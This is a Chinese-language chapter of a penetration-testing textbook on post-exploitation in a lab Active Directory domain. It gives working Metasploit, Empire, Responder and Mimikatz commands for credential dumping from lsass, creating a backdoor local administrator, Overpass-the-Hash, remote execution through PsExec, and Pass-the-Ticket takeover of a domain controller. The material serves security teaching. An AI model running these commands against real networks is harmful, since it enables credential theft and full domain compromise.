# 横向移动和提升权限

现在您已经攻破了系统，您可能想知道接下来该怎么办。后渗透是下一步，我们希望在内部网络中获得进一步的访问。在本章中，我们将看看如何获得比当前更高的权限。这可能需要在网络上进一步嗅探，以及执行横向移动技术。

在本章中，您将学习不同的后渗透技术，以及为什么后渗透形成渗透测试的一个重要部分。您将学习如何建立一个 AD 实验室，用于测试您的后渗透技能。通过使用可用的工具，您将了解它们的目的以及如何在渗透测试中使用它们，以确保您可以访问被攻击的系统。

在您阅读本章的过程中，您将学习以下主题：

+   发现后渗透技术

+   准备您的环境

+   后渗透工具

+   执行后渗透攻击

# 技术要求

要跟随本章中的示例和说明，请确保您具备以下技术要求：

+   Kali Linux 2019.1

+   Metasploitable 3

+   Windows Server 2016（评估版）

+   Windows 10 企业版（评估版）

# 发现后渗透技术

在执行后渗透时，您需要了解一些技术。这些技术是您在进行渗透测试时将利用的。例如，考虑这样一个情景，您可能会攻破一个标准用户，该用户在网络上没有访问许多资源的权限。您的目标（在渗透测试的范围内）是获得域控制权并创建一个高权限用户帐户。您将如何进行？这就是了解后渗透不同技术的重要性，因为您将能够看到可以利用的差距，以使您更接近目标。

我们将在本节中涵盖一些这些技术。

# 横向移动

一旦您攻破了目标网络上的初始主机，您将需要开始在环境中进行横向移动。横向移动是从一个主机移动到另一个主机，寻找更高权限的帐户、枢纽点、敏感数据或者简单的侦察的过程。在这个阶段，使用内置工具以避免被检测是一种常见做法。例如，PowerShell 或 WMI 通常被列入白名单，并允许在环境中的端点上使用。

在横向移动过程中，凭证收集通常是一个主要焦点。它始于已被攻破的主机，并随着您在网络中移动而持续。收集凭证可以为您提供升级路径，如果您使用诸如键盘记录、内存转储或者捕获存储凭证的文件等技术。大多数组织低估了内置的本地管理员帐户。这个帐户可以用于在不同的端点之间跳转。

您可以通过利用未打补丁的机器在网络中移动。一些组织在为员工配置新工作站时并不使用隔离环境。当操作系统忙于更新时，您有一个小窗口，补丁缺失，这可以被利用。

# 权限提升

权限提升是寻找比您当前拥有的更高权限访问方式的过程。例如，如果您攻破了一个普通用户帐户，那么该帐户很可能没有访问域控制器的权限。因此，您需要寻找一个具有访问权限的帐户。`域管理员`组内的帐户很可能是一个明显的线索。

为了找到高特权帐户，您需要通过横向移动计算机，如前一节所讨论的那样。您将通过可能包含凭据的文件、配置错误的服务、过多的用户权限，甚至故意不安全的安全措施来工作。

# 枢轴

企业网络通常会有逻辑边界，您需要在渗透测试中穿越。逻辑网络边界是网络内的逻辑分隔，通常是通过将网络分割成不同子网并通过路由器、交换机甚至防火墙控制对子网的访问来实现的。例如，网络将包含受信任区段、服务器区段、**非军事区段**（**DMZ**）和外部区段。受信任区将是内部网络，是最受信任的网络，可能不会有太多限制。服务器区段将是一个包含各种服务器的子网。非军事区段包含外部面向服务器，外部区段将是一个不受信任的网络，如互联网。

枢轴是访问在正常情况下无法访问的资源的过程。如果我们考虑前一段中讨论的各个部分，您可能已经获得了对受信任部分的初始访问权限。您现在正在尝试访问服务器部分中的特定服务器，但是从一般受信任网络是不允许的——只允许从跳转主机访问，该跳转主机将同时访问服务器和受信任部分。获得对该跳转主机的访问权限将为您提供到服务器部分的枢轴点。

# 准备您的环境

为了演示本章中的各种后渗透攻击，我建立了一个基本的**Active Directory**（**AD**）实验室。您可以使用以下图表构建与我相同的实验室：



图 1：实验室图表

Windows 10 企业评估可以从以下网址下载：[`www.microsoft.com/en-us/evalcenter/evaluate-windows-10-enterprise`](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-10-enterprise)。

Windows Server 2016 评估可以从以下网址下载：[`www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2016`](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2016)。

服务器操作系统上创建域的设置步骤如下：

1.  安装完成后，使用本地管理员帐户登录您的服务器。

1.  在以太网适配器上配置静态 IP 地址。如果您正在构建虚拟机，请确保将网络适配器设置为虚拟化软件上的私有网络。

1.  单击开始并搜索`PowerShell`。然后，右键单击 PowerShell 并选择以管理员身份运行。

1.  一旦 PowerShell 打开，输入`Install-WindowsFeatures -Name AD-Domain-Services -IncludeManagementTools`命令。安装功能后，您将收到以下消息：


图 2：安装 AD 域服务

1.  接下来，我们需要设置 AD 林配置。输入`Install-ADDSForest -DomainName "pentest.lab" -InstallDNS`命令。您将被提示输入恢复密码；这可以是您想要的任何内容。使用`A`来回答所有问题都是肯定的：


图 3：安装 AD 林

1.  在此期间，安装将安装多个组件。一段时间后，服务器将重新启动。重新启动后，您将能够使用您在首次安装服务器时定义的管理员用户名和密码登录。

1.  您可以通过在管理 PowerShell 窗口中发出`Get-ADDomain`命令来确认域是否已成功设置：



图 4：验证 Active Directory 信息

如果您更喜欢使用图形界面，可以在以下链接找到一个很棒的博客，告诉您如何操作：[`blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/`](https://blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/)。

还有一些额外的任务需要完成，您可以使用此处定义的 PowerShell 命令来完成。确保您使用域管理员帐户登录到域控制器，然后使用 PowerShell 执行这些额外的步骤：

1.  我们要做的第一件事是在 AD 中创建一个新的组织单位。您可以随意命名。在我的环境中，我称之为`IT`：

```
New-ADOrganizationalUnit -Name "IT"
```

1.  下一步是创建用户帐户。您可以重复此步骤，通过更改**粗体**标记的名称来创建`helpdeskagent`和`serveradmin`帐户：

```
New-ADUser -Name "DomainAdmin" -GivenName "Domain" -Surname "Admin" -SamAccountName "DomainAdmin" -UserPrincipalName "DomainAdmin@pentest.lab" -Path "OU=IT,DC=pentest,DC=lab" -AccountPassword(Read-Host -AsSecureString "User Password") -Enabled $true
```

1.  接下来，我们将创建一个安全组。`helpdeskagent`将被添加到这个组中：

```
New-ADGroup "Helpdesk Staff" -Path "OU=IT,DC=pentest,dc=lab" -GroupCategory Security -GroupScope Global -PassThru –Verbose
```

1.  最后，我们将把各种用户添加到各自的安全组中：

```
Add-AdGroupMember -Identity "Domain Admins" -Members DomainAdmin
Add-AdGroupMember -Identity "Helpdesk Staff" -Members HelpdeskAgent
```

一旦域控制器建立完成，您可以将您的 Metasploitable 3 和 Windows 10 企业虚拟机加入到域中。确保您按照前面的图表设置静态 IP 和 DNS。

为了模拟我们将在后面介绍的攻击，我已经配置了以下内容：

+   **Windows 10 企业虚拟机**：在这里，登录的用户将是`domainadmin`。我已经将`Helpdesk Staff`组配置为 PC 上的本地管理员。

+   **Metasploitable 3**：在这里，我已经使用`serveradmin`和`helpdeskagent`帐户登录。

# 后渗透工具

后渗透是渗透测试的重要部分。有许多工具可以用于后渗透。了解何时以及如何使用这些工具将有助于您进行成功的后渗透活动。

我们将在本节中讨论其中一些工具。

# Metasploit 框架

Metasploit 框架确实具有许多功能，我们在整本书中都广泛使用了它。我们主要关注了框架的利用功能。现在，我们将看看后渗透功能。Metasploit 提供了许多可以针对各种系统使用的模块。

为了在您的实验室中执行这些攻击，我使用了 Metasploitable 3（Windows）虚拟机作为目标。我使用的漏洞是`windows/smb/ms17_010_eternalblue`，我们在第五章中介绍过，*深入 Metasploit 框架*。

让我们看看可用的后渗透功能以及它们可以用于什么。

# Metasploit 后模块

在 Metasploit 框架中，有许多跨不同操作系统的后模块。您可以通过键入`use post`，然后按两次*Tab*键来查看。Metasploit 将提示您显示所有可能性。在撰写本文时，有 328 个可以使用的`post`模块：


图 5：查看 Metasploit 中的后模块

让我们看看您可以使用的一些模块。例如，`post/windows/gather/enum_ad_users`和`post/windows/gather/enum_ad_groups`模块将为您提供有关 AD 域中存在的用户和组的一些见解：



图 6：枚举 AD 组

在您已经攻击的目标系统上，您需要确定当前安装了什么。这将有助于确定诸如主机入侵检测或防病毒应用程序之类的安全控制。通过使用`post/windows/gather/enum_applications`，您将能够看到已安装应用程序的列表：



图 7：列出当前安装的应用程序

让我们看看 Meterpreter 中存在的选项。回想一下第五章，*深入了解 Metasploit 框架*，使用 Meterpreter shell 提供了更多的功能。

一旦您入侵了一个系统，您可能希望将您的 Meterpreter 会话迁移到另一个进程，以避免被检测或获得持久性。可以通过使用来自 Meterpreter 会话的`run post/windows/manage/migrate`命令来进行进程迁移：



图 8：Meterpreter 进程迁移

Meterpreter 使得可以使用额外的扩展类别，如`powershell`和`Mimikatz`。这些可以通过从 Meterpreter shell 中使用`load`命令加载： 


图 9：加载 meterpreter 模块

使用`getsystem`命令可以实现使用 Meterpreter 进行本地系统的特权升级。

这个命令告诉 Meterpreter 使用任何可用的技术来获取本地系统权限。这些技术包括**命名管道模拟**和**令牌提升**：


图 10：使用 Meterpreter 提升到系统权限

在本章的即将到来的部分（*执行后渗透攻击*）中，我们将看看如何使用 Meterpreter 的一些功能来执行后渗透活动。

# Empire

Empire 是另一个可以用于后渗透的强大工具。它灵活且利用了安全通信。它为您提供了在不需要`powershell.exe`的情况下运行 PowerShell 代理的能力。后渗透模块范围从键盘记录器到凭证提取工具（如 Mimikatz）。

Empire 可以通过克隆存储库来安装。您可以使用以下命令来执行此操作：

```
git clone https://github.com/EmpireProject/Empire.git
```

一旦存储库被克隆，您可以在其目录中使用`./install.sh`命令安装 Empire。安装完成后，您可以使用`./empire`命令运行 Empire。

当 Empire 加载时，您将看到主屏幕，显示加载的模块、监听器和活动代理：


图 11：Empire 主屏幕

在您拥有活动代理之前，我们需要创建一个监听器。这可以通过使用`listeners`命令来完成，然后使用`uselistener [type]`命令定义我们想要创建的监听器类型。有各种类型，如`http`、`meterpreter`和`redirector`。

使用`uselistener http`命令设置一个简单的`http`监听器。一旦选择了`listeners`，您可以使用`info`命令检查可用的选项：



图 12：查看监听器选项

注意`Required`字段。默认情况下，您只需要为监听器提供一个名称。这可以使用`set Name [name]`命令完成。在我的例子中，我给我的监听器起了一个名字，即`Metasploitable3`。一旦定义了一个名称，输入`execute`命令启动监听器。

Empire 命令区分大小写。使用`set name`命令将不起作用-您必须使用`set Name`。

现在您已经设置了监听器，您需要将一个分段器链接到监听器。这可以通过使用`back`命令返回到监听器配置来完成。要定义一个分段器，您将使用`usestager [stager]`命令。您可以通过按两次*Tab*按钮查看完整的分段器列表。

我们将使用`usestager windows/launcher_bat`命令创建一个简单的 Windows 启动器分段器。这将创建一个可以在目标机器上运行的批处理文件，并将其存储在临时位置：



图 13：使用 Empire 创建一个分段器

一旦分段器被创建，你所需要做的就是在目标系统上运行文件。运行分段器后，它将连接到帝国并成为一个代理：


图 14：帝国中的活动代理

要与代理进行交互，我们使用`interact [agent name]`命令。

使用`sysinfo`命令，我们可以确认我们具有管理完整性。这由`High Integrity`变量中的值`1`来定义：


图 15：获取远程系统信息

一旦你获得了对代理的访问权限，你可以随心所欲地进行后期利用活动。

# Responder

Responder 是一个可以快速获取凭据的工具。它内置于 Kali Linux 中，利用了 LLMNR、NBT-NS 和 MDNS 毒物质，这些都可以简单地用于攻击易受攻击的网络。Responder 之所以成功，纯粹是因为网络组件，如 ARP（地址解析协议）、DHCP（动态主机配置协议）和 DNS（域名系统）没有得到安全配置。

**链路本地组播名称解析**（LLMNR）和**NetBios 名称服务**（NBT-NS）是在 Windows 操作系统中用于通信和名称解析的组件；它们在 DNS 失败时尝试解析名称。MDNS 代表 Microsoft DNS。

Responder 的基本语法是`responder -I [interface]`。

Responder 有许多可用的毒物服务器。这些可以通过存在于`/usr/share/responder/Responder.conf`的配置文件进行配置：


图 16：Responder 毒物服务器

要了解 Responder 的工作原理，让我们考虑以下情景。

用户被引导到一个不存在的共享，要么是通过社会工程学，打开一个强制计算机尝试访问不存在的共享的恶意文档，要么是在尝试访问合法共享时打错了字。

让我们按照这些步骤来看看它是如何运作的：

1.  PC 将尝试通过对其配置的 DNS 服务器进行名称解析来连接不存在的文件共享：



图 17：用户尝试访问不存在的共享

1.  DNS 服务器没有与 PC 尝试访问的内容匹配的记录，因此它会告诉 PC 该记录不存在。这就是 LLMNR 和 NetBIOS-NS 查询接管的地方。

1.  然后 PC 将使用 LLMNR 和 NetBIOS-NS 进行广播，这将被运行 Responder 的攻击者拦截。

1.  Responder 将回答查询并欺骗 PC 相信它有该共享。然后它将继续要求 PC 使用用户的密码哈希加密挑战请求。一旦哈希挑战完成，Responder 将以错误的方式丢弃请求。 

1.  Responder 现在已经捕获了哈希并在控制台上显示出来：


图 18：捕获的 NTLMv2 哈希

一旦哈希被捕获，就可以使用`hashcat`等工具进行破解：


图 19：使用 hashcat 破解 NLTMv2 哈希

Responder 有能力创建一个恶意代理服务器，它将回答**Web 代理自动发现**（WPAD）请求。这是一个协议，客户端用它来下载一个定义代理设置的配置文件。通过恶意代理，Responder 能够强制进行身份验证，从而诱使用户输入他们的凭据，这些凭据可以被捕获。

尽管 Responder 本身不是后期利用工具，但了解它的工作原理可以帮助您在后期利用活动中解决困难。在执行其他后期利用活动时，让它继续运行也没有坏处，因为很可能您会收集到大量哈希值，特别是在用户在尝试访问共享时容易出现拼写错误的大型环境中。

# Mimikatz

Mimikatz 是社区中众所周知的工具。它是一个开源应用程序，允许您与 NTLM 哈希或 Kerberos 票证等凭据进行交互。该工具不断得到维护，并且其攻击向量保持最新。Mimikatz 的存储库位于这里：[`github.com/gentilkiwi/mimikatz`](https://github.com/gentilkiwi/mimikatz)。

攻击者和渗透测试人员通常会使用 Mimikatz 来窃取凭据并执行特权升级等活动。随着杀毒技术的进步，这个工具经常被杀毒产品检测到。然而，互联网上有许多关于如何在使用 Mimikatz 时规避检测的文章。

Mimikatz 的一些主要特点如下：

+   **Pass-the-Hash**（**PtH**）：在 Windows 中，密码数据以哈希格式（NTLM）存储。Mimikatz 允许您利用这个哈希并将其传递给目标，从而无需破解哈希。通过传递这个哈希，您可以获得对目标系统的访问权限，并拥有属于该哈希的帐户的全部权限。

+   **Pass-the-Ticket**：这种攻击涉及使用 Kerberos 票证对系统进行身份验证；无需知道帐户的密码。它通过捕获有效帐户的 Kerberos 票证来工作。捕获**票证授予票证**（**TGT**）可以用于从**票证授予服务**（**TGS**）请求服务票证，以访问帐户有权限访问的任何资源。

+   **Overpass-the-Hash**（**Pass-the-Key**）：这种攻击结合了哈希传递和票证传递攻击。通过使用有效的 NTLM 哈希，您将能够获得有效用户的 Kerberos 票证请求。

+   **Kerberos Silver Ticket**：银票攻击包括创建一个忘记服务票证。这些票证可以提供对特定服务的访问权限。例如，创建一个 SQL 服务账户的银票证允许您访问特定主机上的 SQL 服务。在执行银票证账户时，不需要与域控制器进行通信。这使您可以避免被检测到。

+   **Kerberos Golden Ticket**：这种攻击涉及一个名为`krbtgt`的帐户。该帐户用于在 AD 域中加密和签名所有 Kerberos 票证。黄金票证攻击涉及窃取`krbtgt`哈希；一旦窃取，您就能够创建和签署自己的 Kerberos 票证。这最终使您完全访问域内的任何内容，并且该票证不会过期。

Mimikatz 在许多后期利用工具中被利用，如 Empire、Metasploit Framework 和 Powersploit。

# 执行后期利用攻击

让我们在实验环境中进行一些后期利用攻击。我们将使用 Metasploitable 3 虚拟机作为入口点，因为我们知道存在漏洞。

使用`windows/smb/ms17_010_eternalblue`漏洞，我们将生成一个 Meterpreter 会话。一旦我们建立了会话，我们将使用`getsystem`命令提升到系统权限。

一旦我们有了 Meterpreter 会话，我们将使用`sysinfo`命令确认当前系统的信息：


图 20：确认当前系统信息

在这里，我们有一些有趣的信息：我们可以看到有三个已登录的用户。让我们继续进行凭证收集。

# 执行凭证收集

现在我们知道有三个用户登录，我们将尝试提取任何凭据。为此，我们将使用`load kiwi`命令在 Meterpreter 中加载`kiwi`扩展。一旦扩展加载完成，我们将使用`kiwi_cmd sekurlsa::logonpasswords`命令转储当前登录用户的凭据：


图 21：加载 kiwi 扩展

当我们使用`kiwi_cmd sekurlsa::logonpasswords`命令时，我们告诉 Meterpreter 使用我们将在其中定义命令的命令，然后我们定义我们想在 Mimikatz 中使用的命令。`sekurlsa::logonpasswords`命令负责从内存中的**本地安全性机构子系统服务**（**lsass**）中提取密码、密钥、PIN 码和票证。

命令运行后，将有大量输出。请注意以下截图中的输出。在这里，我们有一些有价值的信息。我们可以看到有一个名为`serveradmin`的用户帐户已登录。我们有用户帐户的 LM 和 NTLM 哈希，由于域仍在使用`wdigest`，我们有`P@ssw0rd!@#$%`的明文密码：


图 22：使用 Mimikatz 转储的 ServerAdmin 凭据

深入研究输出，我们还有另一个有趣的凭据，`helpdeskagent`。在这里，我们还有 NTLM 哈希和明文密码：


图 23：使用 Mimikatz 转储的 helpdeskagent 凭据

现在，我们有两个有趣的帐户可供使用。在进行横向移动之前，我们将使用 Meterpreter 上传两个文件，使用以下步骤：

1.  使用`pwd`命令查看当前工作目录。

1.  您可以在此处上传文件，也可以创建新文件夹。我创建了一个名为`tools`的新文件夹。

1.  确保您已从我们在*Mimikatz*部分提到的 GitHub 存储库中下载了 Windows 版本的`mimikatz.exe`。使用`upload`命令上传文件：


图 24：上传 mimikatz.exe

接下来要上传的文件是`PSexec.exe`*.* `PSexec`用于执行远程命令，并可从[`docs.microsoft.com/en-us/sysinternals/downloads/psexec`](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)下载。

在真实的渗透测试中，您不会简单地上传文件，特别是 Mimikatz 和`PSexec`，因为它们可能会被本地防病毒软件删除或记录，IT 人员可能会被警告您在机器上的存在。在这个演示案例中，Metasploitable 3 上没有安装防病毒软件或日志记录软件。

最后，我们将创建一个本地用户帐户，以便访问服务器。我们可以使用 Meterpreter 中的`shell`命令访问 Windows 命令提示符。一旦我们获得 shell 访问权限，我们将使用以下两个命令在内置管理员组中创建一个本地用户：

```
net user [username] [password] /add
net localgroup [group name] [username] /add
```

此命令创建一个本地用户并将用户添加到指定的组：


图 25：创建本地管理员用户

拥有此本地管理员用户帐户可以形成后门。

# 执行 Overpass-the-Hash

由于我们已确定 Metasploitable 3 是一个服务器，让我们尝试使用我们在其中创建的本地帐户登录，以防我们收集到哈希的用户之一已登录。为此，我们将使用内置于 Kali 中的`xfreerdp`工具。

我们将使用的命令语法如下：

```
xfreerdp /u:Pentester /p:Pentest@1! /v:192.168.10.15
```

在此命令中，我们定义了用户（`/u`）、密码（`/p`）和服务器 IP（`/v`）。输入命令后，您将拥有远程桌面会话：



图 26：建立远程桌面会话

现在我们已经登录到服务器，让我们尝试枚举当前域用户和组。请记住，我们已经收集了`serveradmin`和`helpdeskagent`的凭据。打开命令提示符并输入`net user /domain`命令失败，因为我们没有通过域进行身份验证：


图 27：用户枚举被拒绝

由于我们有两个域凭据的哈希值，让我们使用这个来执行 Overpass-the-Hash 攻击。我们将使用 Mimikatz 工具的`serveradmin`哈希。执行此操作的命令如下：

```
Mimikatz.exe "privilege::debug" "sekurlsa::pth /user:serveradmin /ntlm:[ntlm hash] /domain:pentest.lab" "exit"
```

在这个命令中，我们告诉 Mimikatz 使用最高权限(`privilege::debug`)，通过 Overpass-the-Hash 攻击(`sekurlsa::pth`)并定义用户名(`/user`)、NTLM 哈希(`/ntlm`)和域(`/domain`)。

一旦命令执行，我们将会有一个新的命令提示符窗口打开。这个窗口将具有`serveradmin`账户的权限，因此允许我们在伪装成`serveradmin`的同时执行用户和组枚举：


图 28：成功的 Overpass-the-Hash 攻击

现在，让我们看看我们可以用`helpdeskagent`账户做些什么。在用户和组枚举期间，我们确定域中有一个`helpdeskagent`账户和一个`Helpdesk Staff`组。让我们假设用户账户是这个组的成员。我们可以通过使用`net user helpdeskagent /domain`命令来确认这一点：


图 29：验证 helpdeskagent 的组

确实，该账户是该组的成员。

在进行下一步之前，我们将重复执行 Overpass-the-Hash 攻击，但这次使用`helpdeskagent`账户的 NTLM 哈希。

# 执行横向移动

使用 Overpass-the-Hash 攻击使用`helpdeskagent`账户生成的新命令窗口，我们将尝试访问 Windows 10 PC。使用`dir \\192.168.10.9\c$`命令进行简单的目录列表显示了该目录。这告诉我们`Helpdesk Staff`可能在该 PC 上拥有本地管理员权限。

我们要做的第一件事是将 Mimikatz 复制到 Windows 10 PC。这可以通过使用`xcopy mimikatz.exe \\192.168.10.9\c$\tools`命令来完成。根据以下截图，由于我没有创建目录，我被提示定义目标是文件还是目录：


图 30：将 mimikatz.exe 复制到新目标

使用`PSexec`，我们将查看转储当前登录用户凭据。这可以通过以下命令完成：

```
psexec.exe \\192.168.10.9 -accepteula cmd /c (cd c:\tools ^& mimikatz.exe "privilege::debug" "seckurlsa::logonpasswords" "exit")
```

在这个命令中，我们告诉`PSexec`在远程系统上运行 Mimikatz 命令。`-accepteula`命令非常重要，因为这将阻止远程系统上的 EULA 提示出现：


图 31：使用 PSexec 远程执行 mimikatz 命令

一旦我们有了输出，我们将看到有一个高权限账户登录，即`domainadmin`：



图 32：在远程系统上收集凭据

在这里，我们没有明文密码，但我们仍然有 NTLM 哈希，我们可以使用。接下来我们要做的是执行一个 Pass-the-Ticket 攻击。我们将使用在本节中使用的同一个命令行窗口。

# 执行 Pass-the-Ticket 攻击

为了执行这个攻击，我们需要从 Windows 10 PC 导出当前的 Kerberos 票证。这可以通过以下命令完成：

```
psexec.exe \\192.168.10.9 -accepteula cmd /c (cd c:\tools ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
```

在这个命令中，我们正在导出当前的 Kerberos 票据，以便我们可以复制它们并将其导入到我们的会话中。一旦您运行此命令，您将获得一些`*.kirbi`文件。由于我们只对`domainadmin`感兴趣，我们将把它们复制到我们的 Metasploitable 3 服务器上。可以使用普通的 Windows `copy`命令进行复制。

一旦你在 Metasploitable 3 服务器上有了`.kirbi`文件，你可以使用以下命令执行票据传递攻击：

```
mimikatz.exe "privilege::debug" "kerberos::ptt c:\windows\system32\tools" "exit"
```

在这个命令中，我们正在定义攻击（`kerberos:ptt`）和`.kirbi`文件的位置：



图 33：导入 domainadmin Kerberos 票据

注意前面截图中的输出。在执行攻击之前，我尝试访问 DC，但被拒绝了。请记住，这是我们使用`helpdeskagent`账户生成的同一个窗口。一旦 Mimikatz 命令执行，我们将看到`domainadmin` Kerberos 票据已经导入到我们的会话中。

我们可以通过运行`klist`命令来确认 Kerberos 票据已经导入，该命令将显示当前的 Kerberos 票据：



图 34：Kerberos 票据成功导入

注意，我们的会话现在具有`domainadmin`账户的 Kerberos 票据。我们现在正在冒充域管理员，因此我们将能够访问域控制器：


图 35：域控制器现在可以访问

在这一点上，我们已经完全访问了域控制器，这导致了对环境的完全妥协。

# 摘要

后期利用可以以许多不同的方式进行。有时，仅使用一个工具，如 Responder，就可以捕获高特权哈希。在其他情况下，您需要通过使用各种技术来真正地处理环境。在本章中，我们只关注了一些工具，但还有许多其他可用的工具。

在本章中，您确定了在进行后期利用时可以利用的各种技术。您现在可以构建一个基本的 AD 实验室，用于测试您在后期利用方面的技能。您可以使用渗透测试人员和攻击者使用的真实工具。您还获得了执行各种后期利用攻击的实际动手能力。

在下一章（第十二章*，在环境中保持控制*）中，我们将讨论持久性以及如何保持对被入侵网络的访问。

# 问题

1.  在后期利用过程中可以利用哪些技术？

1.  可以用于后期利用的工具有哪些？

1.  列出一些存在于 Meterpreter 中的后期利用脚本。

1.  解释一下票据传递攻击。

1.  `krbtgt`账户有什么独特之处？
